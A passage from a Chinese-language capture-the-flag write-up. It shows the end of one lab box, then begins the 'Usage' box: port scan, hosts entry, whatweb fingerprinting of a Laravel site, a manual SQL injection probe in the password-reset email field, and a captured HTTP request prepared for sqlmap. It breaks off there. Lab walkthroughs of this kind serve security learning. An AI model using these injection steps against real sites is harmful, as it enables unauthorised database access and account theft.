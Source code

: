 ```bash
```

中间的 `${file}` 那行不知道为啥断行了，给它三句连起来，记得加空格。
在靶机执行拿到 root 的 shell，读 `root.txt` 拿到第二个 flag。

## Usage

扫端口只有 80 和 22，老样子，先加 host

```bash
sudo echo "10.10.11.18    http://usage.htb" >> /etc/hosts
```

然后访问，是一个登录页面，用 whatweb 看眼，发现是 Laravel

```bash
$ whatweb http://usage.htb/
http://usage.htb/ [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

在 [Hacktricks](https://book.hacktricks.xyz/v/cn/network-services-pentesting/pentesting-web/laravel) 上有说存在 SQL 注入漏洞，测一下
先注册一个 `a@a.com` 的用户，再在重置密码的 `email` 项输入 `a@a.com'`，发现引号能触发 500 错误，说明存在注入。

```sql
a@a.com' AND 1=1;-- -
```

上面的语句的 response 是成功执行。于是把请求体复制到 request.txt，用 sqlmap 跑

```yaml
POST http://usage.htb/forget-password HTTP/1.1
Host: usage.htb
Content-Length: 84
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6IkhFakpQK2l4cU5sYkhHZzZoN00rUmc9PSIsInZhbHVlIjoiYysvaTY0WDl1dXBXMGR2TzM5YWt2aEg4T051akNzTDFxcWJzUC9yY3pPajN4ei9FRTRJbzNuQ2htY0pmc25xWGR5anV6UzFHTkJ1N2tYYWlJcUEzNjZnSmNVMzdaa0hWNWlST3BVeTlqUnpBdVJ0aEVlOTVUSnBlNXdTa29UTk8iLCJtYWMiOiI0NzIxOTRkMTk4ZWEyN2E2YjI1YTA1NzI4ODg3MzFjZWM0YjJkZGRhNTZjOWYxZGVkNmRjMWRkNTYyNzYzMjUwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IktHWU1MYzFSNDBvSEN1M2dRSVJlTmc9PSIsInZhbHVlIjoib1FJU1RXWWxPV0ZRem5NNGJxUzR1QkdCdFpYMm8yWGxNblhFL0hIaFdnOWxSK3c0bStqNk9wY1Jsd3ZPZHFTTkdCWjByMnJNTkNnV21hZVJrZGZZcTdBbTFpT3YzOVBubENxT09FWTdBQlhPdEZoTGExMnZHdUZXZ0svOEF5cHkiLCJtYWMiOiI1NWNhNDg3OWZmOTEzNjkzNDMxZGNkZDVjODljMzBkMTRkYzcwZjU2MjI4ZDk5NTBkNzAxOTdhMzlkNTk3MzAxIiwidGFnIjoiIn0%3D
Connection: close

_token=KwTPctNAzmgzsn7wIgf7PC16p7nJ52U7AGT0MNHQ&email=a%40a.com # 注意这里用手注的 payload
```
